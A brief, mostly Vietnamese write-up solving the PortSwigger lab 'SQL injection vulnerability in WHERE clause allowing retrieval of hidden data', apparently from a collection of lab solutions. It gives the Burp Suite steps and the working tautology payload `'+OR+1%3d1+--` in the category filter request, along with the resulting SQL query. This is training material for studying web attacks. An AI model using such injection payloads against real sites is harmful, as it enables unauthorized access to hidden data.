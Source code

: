 # [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Lỗ hổng: Phía server không có bất kì nỗ lực nào ngăn cản tấn công SQLi ở module tìm kiếm

**exploit**:
1. Bấm vào category bất kì ở trang web, dùng burpsuite để gửi request đó vào repeater.
2. Chỉnh sửa request thành:
```http
GET /filter?category='+OR+1%3d1+-- HTTP/1.1
...
```
SQL query sẽ thành `SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1`
=> Solved